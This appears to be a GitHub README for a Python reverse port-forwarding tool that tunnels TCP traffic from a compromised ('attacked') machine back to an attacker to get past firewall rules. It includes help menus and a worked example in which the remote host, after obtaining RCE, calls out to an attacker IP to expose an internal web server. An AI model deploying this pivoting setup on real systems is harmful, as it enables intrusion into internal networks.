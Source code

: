 # reverse-proxy-port-forwarder

*linux and windows binaries available*

## Summary

This tool comes in two pieces that have to run *simultaneosly* on different machines :
- **local_portfwd**
- **remote_portfwd**
  
The concept is simple.  
These programs are creating a tunnel for tcp packets between two machines.    
The ***local port forward*** program should be running on your local machine, after being started it will be listening for the incoming tunnel connection handshake and on success it will open a service port.  
  
- **I've choosen a reverse connection logic (remote-attacked connecting to local-attacker) instead of a simple bind beacause it's better at escaping firewall rules.**  
  
Once the connection is established you are ready to forward packets to the remote machine by simply sending requests to the RPPF service address (ex. `localhost:4444`).  
Then the requests will be forwarded to the endpoint of the tunnel which is the ***remote port forward*** program.  
The remote forward script is a simple proxy and it will act on behalf of you, forwarding packets to the target address (which you must specifiy during startup).  
Look at bottom page for a simple example.  

## Help menu

`remote_portfwd.py` helper menu :
```shell
$ ./remote_portfwd.py -h
usage: remote_portfwd.py [-h] thost:tport fhost:fport

--------------------------------------
 Reverse Proxy Port Forwarder (Remote)
--------------------------------------
Welcome to the RPPF, a simple port forwarder written in python.
This code should be running on the remote (attacked) machine.
A tunnel will be created to the thost:tport address using a reverse 
connection logic, to bypass firewall. The data coming from the tunnel
will then be sent over a new connection to the forward address.
The tunnel address should be your RPPF local tunnel address.
Example : ./remote_portfwd.py localhost:4444 google.com:80
--------------------------------------
* Only tcp protocol supported *

     __                          __
    |==|                        |==|
    |= |                        |= |
    |^*|  ----☠----☠----☠----   |^*|
    |__|                        |__|
        

positional arguments:
  thost:tport  Your local address to be contacted
  fhost:fport  The remote address to forward to

optional arguments:
  -h, --help   show this help message and exit
```
  
`local_portfwd.py` helper menu :
```shell
 $ ./local_portfwd.py -h
usage: local_portfwd.py [-h] thost:tport rhost:rport

-------------------------------------
 Reverse Proxy Port Forwarder (Local)
-------------------------------------
Welcome to the RPPF, a simple port forwarder written in python.
This code should be running on local (attacker) machine.
The program will be listening for the incoming tunnel connection from
remote_portfwd.py (thost:tport).
After the connection is established the RPPF is ready to forward data. 
Just send data to the service address.
-------------------------------------
* Only tcp protocol supported *

     __                          __
    |==|                        |==|
    |= |                        |= |
    |^*|  ----☠----☠----☠----   |^*|
    |__|                        |__|
        

positional arguments:
  thost:tport  Tunnel address to listen to
  rhost:rport  The rppf address to listen to

optional arguments:
  -h, --help   show this help message and exit
```

## Simple use case

Let's suppose I want to get access to a web server listeining to 127.0.0.1:80 in a remote machine.  
Obviously I need rce, and a way to upload `remote_portfwd.py`.  
Once I got the program on the remote machine I can begin the attack.  
*Order is not important, you can run before or after `local_portfwd.py`. No matter.*  
  
On remote 
```shell
$ python remote_portfwd.py 10.10.14.19:4444 localhost:80
creating tunnel to ('10.10.14.19', 4444)

```
Where `10.10.14.19` is my local IP address and `4444`  is the port where I want to create the RPPF tunnel.  
  
Then on your local machine
```shell
$ ./local_portfwd.py 10.10.14.19:4444 localhost:4242
Waiting for incoming tunnel connection...
Tunnel created
Opening rppf listening service...
--------------------------------------------
RPPF Service opened on ('localhost', 4242)
Ready to transfer data

```
Now the RPPF forward service is **ready and listening** on port 4242.  
`10.10.14.19` is the IP to bind to, can be also `0.0.0.0` to listen on every interface.
  
If you go back to remote console the output should have been updated :
```shell
$ python remote_portfwd.py 10.10.14.19:4444 localhost:80
creating tunnel to ('10.10.14.19', 4444)
tunnel created
opening forward connection to ('localhost', 80)
connection created
--------------------------------------------
Ready to transfer data

```
This means that the also the remote service is **ready and running**.  
  
Now you can just type `localhost:4242` in your web browser to connect to the site as a localhost. :smile:  
  
***NOTE** : For an http request you may need to modify the HOST header (just intercept the request before being sent to layer 4).*
